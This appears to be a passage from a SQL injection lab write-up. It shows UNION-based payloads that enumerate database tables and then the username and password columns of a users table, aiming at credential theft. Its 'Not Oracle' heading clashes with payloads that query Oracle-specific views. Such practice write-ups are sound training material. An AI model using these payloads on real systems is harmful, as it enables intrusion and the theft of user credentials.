 - **Successfully logged in as Administrator**

<br/>

<br/>

### Listing Information from Database (Not Oracle) Lab:

<br/>

***Note: ****The number of columns and the datatype of the columns must be determined first*

<br/>

First, we need to start by listing out the tables found in the database.

<br/>

![90f8a783_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/6693822d-c972-4a77-869a-a0efc05f4686)

**Query Injected:**


```sql
' UNION SELECT table_name, NULL FROM all_tables--
```

<br/>

**Output:**

![3460c624_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/7a2d9201-e161-4bd7-97a5-7a54fc5468d6)

- In this case, the most relevant to use is the `USERS_LXUXKC` table which should contain the usernames and passwords of all users.

<br/>

<br/>

![6b5d3ec9_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/8b4ab603-d0ac-4825-9a4b-c95993a9fa06)

**Query Injected:**


```sql
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_LXUXKC'--
```

- The query above essentially displays all the column names within the table named `USERS_LXUXKC`. 

- The two columns that are most likely to contain the user credentials are `USERNAME_DZLIPE` and `PASSWORD_SCZFUD`.

- The column names will be useful when trying to craft query to obtain data from specific columns in the table.

With the the columns obtained, a proper query can be crafted to obtain the user credentials.

<br/>

![10176165_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/36cf202d-a30a-4c5d-be1b-0a5cabc2ebd4)
